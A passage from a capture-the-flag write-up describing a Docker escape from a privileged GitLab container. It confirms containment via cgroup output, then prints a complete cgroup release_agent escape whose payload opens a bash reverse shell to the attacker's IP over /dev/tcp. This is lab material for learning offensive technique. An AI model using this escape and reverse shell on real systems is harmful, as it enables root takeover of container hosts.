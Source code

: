 ## Getting Real Root

Alright I was being a bit silly in the last section and knew beforehand that I was most likely trapped in a Docker container (`/.dockerenv` and `/opt/backup/docker-compose.yml` were fairly strong indicators). To double check that I was jailed in a container, I checked if `/proc/1/cgroup` gives me some information about where I am.

```
root@gitlab:~# cat /proc/1/cgroup
cat /proc/1/cgroup
12:perf_event:/docker/7eb263389e5eea068ad3d0c208ea4dd02ba86fa0b2ebd44f63adc391351fba6d
11:net_cls,net_prio:/docker/7eb263389e5eea068ad3d0c208ea4dd02ba86fa0b2ebd44f63adc391351fba6d
10:memory:/docker/7eb263389e5eea068ad3d0c208ea4dd02ba86fa0b2ebd44f63adc391351fba6d
9:blkio:/docker/7eb263389e5eea068ad3d0c208ea4dd02ba86fa0b2ebd44f63adc391351fba6d
8:cpu,cpuacct:/docker/7eb263389e5eea068ad3d0c208ea4dd02ba86fa0b2ebd44f63adc391351fba6d
7:hugetlb:/docker/7eb263389e5eea068ad3d0c208ea4dd02ba86fa0b2ebd44f63adc391351fba6d
6:pids:/docker/7eb263389e5eea068ad3d0c208ea4dd02ba86fa0b2ebd44f63adc391351fba6d
5:freezer:/docker/7eb263389e5eea068ad3d0c208ea4dd02ba86fa0b2ebd44f63adc391351fba6d
4:devices:/docker/7eb263389e5eea068ad3d0c208ea4dd02ba86fa0b2ebd44f63adc391351fba6d
3:rdma:/
2:cpuset:/docker/7eb263389e5eea068ad3d0c208ea4dd02ba86fa0b2ebd44f63adc391351fba6d
1:name=systemd:/docker/7eb263389e5eea068ad3d0c208ea4dd02ba86fa0b2ebd44f63adc391351fba6d
0::/system.slice/containerd.service
```

As I thought, I was trapped in a Docker container.

However, it is not a very secure container since I noticed from `/opt/backup/docker-compose.yml` that the container is running with the *privileged* flag on.

```
root@gitlab:~# grep "privileged" /opt/backup/docker-compose.yml
grep "privileged" /opt/backup/docker-compose.yml
    privileged: true
```

We can escape from a Docker container if we have the following requirements [using this PoC](https://book.hacktricks.xyz/linux-unix/privilege-escalation/escaping-from-a-docker-container).

- [x] We are the `root` user on the container.
- [x] The docker container is running with the *privileged* flag on.

Oh guess what, we already have those requirements. Following the PoC I linked above I was able to get a reverse shell as the `root` user on the host machine.

*Commmands*
```
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/10.10.14.21/4444 0>&1" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
head /output
```
